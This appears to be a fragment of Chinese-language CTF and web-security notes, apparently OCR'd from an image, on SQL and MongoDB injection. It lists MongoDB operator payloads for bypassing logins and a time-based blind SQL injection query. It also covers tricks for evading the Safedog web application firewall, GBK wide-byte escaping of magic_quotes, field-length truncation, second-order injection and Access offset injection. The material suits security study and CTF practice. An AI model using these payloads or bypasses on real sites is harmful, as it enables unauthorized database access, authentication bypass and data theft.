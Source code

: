 ```
```



#### information

MySQL（5.7+）在其自带的 mysql 库中，新增了 innodb_table_stats 和 innodb_index_stats 这两张日志表。如果数据表的引擎是 innodb ，则会在这两张表中记录表、键的信息 。



### 杂项

MongoDB 注入

利用正则：找到y开头的name `db.items.find({name: {$regex: "^y"}})`

一些payload

1. `?login[$regex]=^&password[$regex]=^`
2. `?login[$not][$type]=1&password[$not][$type]=1`

```sql
?id=1 RLIKE sleep((select 0.6*count(*) from (select * from(select 1 as a)t1 join(select 1 as b)t2 join(select 1 as c)t3 join(select 1 as d)t4 union/**/select * from flag limit 1 offset 1)x where d like binary 'flag{69c497323202ef9944c36b5e15516ad4}'))%23
```



**Tricks**

```shell
sql-mode = "STRICT_TRANS_TABLES"(默认未开启)
插入长数据截断，插入'admin                      x'绕过或越权访问(束缚攻击？)

注意二次注入
isg2015 web350 username 从 session 中直接带入查询，利用数据库字段长度截断，
\ 被 gpc 后为 \\，但是被截断了只剩下一个 \，引发注入

如果猜解不出数据库的字段，搜索后台，查看源代码，源代码登陆时的表单中的字段一般和数据库的相同

# 绕过安全狗
sel%ect
针对 asp + access，首先来挖掘一下数据库的特性：
1.可代替空格的字符：%09, %0A, %0C, %0D
2.可截断都免语句的注释符有：%00, %16, %22, %27
3.当 %09, %0A, %0C或%0D 超过一定长度后，安全狗的防御便失效了
4.UserAgent：BaiduSpider

有 magic_quotes_gpc = on 的情况下，
提交的参数如果带有单引号"'"，就会被自动转义"\'"，使很多注入攻击无效

gbk 双字节编码：一个汉字用两个字节表示，首字节都应 0x81-0xFE,
尾字节对应 0x40-0xfe(除0x7f)，刚好涵盖了转义字符\对应的编码 0x5c

0xD50x5C 对应了汉字“诚”，URL编码用百分号加字符的16进制编码表示字符，
于是 %d5%5c 经URL解码后为“诚”
0xD50x5c 不是唯一可以绕过单引号转义的字符，0x81-0xFE 开头 + 0x5c 的字符应该都可以


# 偏移注入
2.select * from admin as inner join 
  index.asp?id=886and 1=2 union select 1,2,3,4,* from(admin as a inner join admin as   b on a.id=b.id)
 查询条件是 a 表的 id 列与 b 表的 id 列相等，返回所有相等的行，显然，a,b都是同一个表，当然全部返回
```
